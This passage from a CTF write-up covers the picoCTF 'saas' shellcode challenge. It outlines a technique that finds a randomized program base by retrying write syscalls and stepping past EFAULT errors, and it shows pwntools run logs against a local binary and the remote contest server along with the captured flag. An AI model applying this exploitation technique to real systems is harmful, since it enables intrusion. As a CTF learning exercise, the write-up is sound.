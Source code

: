 1. prep base address
2. try and write to stdout
3. if it errors (EFAULT is -14, so less than 0) increment by 2^20 (unrandomized segment of the address) and try again
4. otherwise, exit

Time varies a little bit, but on my machine I get the flag in about a second. 

```text
❯ python solve.py
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/saas/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/sky/Dropbox/ctf/picomini-by-redpwn/saas/chall': pid 50338
[+] Receiving all data: Done (135B)
[*] Process '/home/sky/Dropbox/ctf/picomini-by-redpwn/saas/chall' stopped with exit code 0 (pid 50338)
picoCTF{placeholder}
```

I rerun the solver on remote... and find that it times out. What gives? Well, as it turns out the docker container enforces some rather strict CPU usage limits and also their server is probably under higher load than my desktop. Armed with the knowledge that *theoretically* this should work and all I needed to do was get lucky and have the program base be in the range I can check in 30 seconds I decided to do the only reasonable thing!  Run it in a loop until it prints a flag and then get lunch. 

30 minutes later the flag is mine! (or more like 3 minutes, I got lucky when i was rerunning it for the writeup lol)

```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/saas/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mars.picoctf.net on port 31021: Done
[+] Receiving all data: Done (35B)
[*] Closed connection to mars.picoctf.net port 31021
[+] Opening connection to mars.picoctf.net on port 31021: Done
[+] Receiving all data: Done (35B)
[*] Closed connection to mars.picoctf.net port 31021
[+] Opening connection to mars.picoctf.net on port 31021: Done
[+] Receiving all data: Done (35B)
[*] Closed connection to mars.picoctf.net port 31021
[+] Opening connection to mars.picoctf.net on port 31021: Done
[+] Receiving all data: Done (35B)
[*] Closed connection to mars.picoctf.net port 31021
[+] Opening connection to mars.picoctf.net on port 31021: Done
[+] Receiving all data: Done (135B)
[*] Closed connection to mars.picoctf.net port 31021
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
```
